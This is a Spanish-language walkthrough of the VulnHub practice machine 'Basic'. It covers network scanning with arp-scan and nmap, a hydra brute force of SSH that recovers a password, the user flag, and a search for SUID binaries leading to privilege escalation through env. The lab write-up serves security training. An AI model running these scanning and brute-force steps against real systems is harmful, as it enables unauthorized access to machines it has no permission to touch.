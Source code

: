 ## Información

**Nombre máquina:** Basic

**Plataforma:** VulnHub

**Dificultad:** easy

---
## Enumeración

### Arpscan
#### Buscamos la ip victima
```bash
sudo arp-scan -I eth0 --localnet --ignoredups
192.168.1.129	08:00:27:08:1a:35	(Unknown)
```

### Nmap

#### Basic
```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 192.168.1.129

PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 64
80/tcp  open  http    syn-ack ttl 64
631/tcp open  ipp     syn-ack ttl 64
MAC Address: 08:00:27:08:1A:35 (Oracle VirtualBox virtual NIC)
```

> Puertos:22,80,631

#### Específico
```bash

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp  open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: Apache2 Test Debian Default Page: It works
|_http-server-header: Apache/2.4.56 (Debian)
631/tcp open  ipp     CUPS 2.3
|_http-server-header: CUPS/2.3 IPP/2.1
|_http-title: Inicio - CUPS 2.3.3op2
| http-robots.txt: 1 disallowed entry 
|_/
```

## Paso a paso

#### Puerto 80
Al ir al puerto 80 no tiene nada mas que el index de apache 

#### Puerto 631
 Encontramos una página de impresora. Dándole vueltas encontramos este apartado:
 
![image](https://github.com/user-attachments/assets/225a3268-a8cb-4afd-a9b6-6b0938f75774)

Dándonos el primer user para intentar: dimitri

Hacemos fuerza bruta con hydra al ssh y nos encuentra la pass!

```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.129 -I -t 64

[22][ssh] host: 192.168.1.129   login: dimitri   password: mememe
```

entramos y encontramos la primera flag:
```bash
dimitri@basic:~$ ls
user.txt
dimitri@basic:~$ cat user.txt 
f17d2f67c468d15600d8fc0b2ebc1d8c
```

## Escalamos privilegios

hacemos un sudo -l sin éxito, posterior a eso buscamos binarios suid
``` bash
dimitri@basic:~$ find / -perm -4000 2>/dev/null
/usr/bin/env
/usr/bin/mount
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
```

Notamos que el env esta en gtfobins:

![image](https://github.com/user-attachments/assets/c58f7e7f-49c5-43e9-b424-3cccaca5e973)

Aplicamos lo de GTFOBins:

![image](https://github.com/user-attachments/assets/bcaf1894-44fd-4951-ac7e-df1be115bb3d)


![image](https://github.com/user-attachments/assets/f5d86b0c-2361-4c4e-af0e-24f538cbd981)


y **Maquina lista!**



